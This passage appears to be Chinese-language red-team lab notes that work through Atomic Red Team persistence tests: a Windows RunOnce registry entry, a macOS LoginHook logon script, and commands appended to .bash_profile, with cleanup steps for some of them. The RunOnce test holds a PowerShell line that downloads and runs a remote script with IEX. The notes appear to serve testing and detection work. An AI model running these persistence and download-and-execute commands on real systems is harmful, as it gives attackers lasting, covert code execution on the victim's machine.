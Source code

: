 迎还没问题,没有复现
###### 测试3 PowerShell Registry RunOnce
powershell中运行
```
$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
```
清除
```
Remove-ItemProperty -Path $RunOnceKey -Name "NextRun" -Force
```
迎还没问题,没有复现

## macos

## T1037.002 - Logon Script

红队一种持久化的方法之一，demo如下

1. 创建一个plist文件

   ```
   sudo touch /private/var/root/Library/Preferences/com.apple.loginwindow.plist
   ```

2. 在plist中填写shellcode的地址

   ```
   sudo defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh
   ```

3. 在目标用户中创建特定的plist文件

   ```
   touch /Users/$USER/Library/Preferences/com.apple.loginwindow.plist
   ```

4. 在该plist中填充文件

   ```
   defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh
   ```

   

## T1546.004 - .bash_profile and .bashrc

红队可以在`~/.bash_profile` 和 `~/.bashrc`中创建命令，并通过用户调起shell来运行红队存储的恶意指令。

`/.bash_profile`在用户登陆后运行，`/.bashrc`运行在shell启动时，Demo如下

**Demo 1 Add command to .bash_profile**

```
echo "#{command_to_add}" >> ~/.bash_profile
```
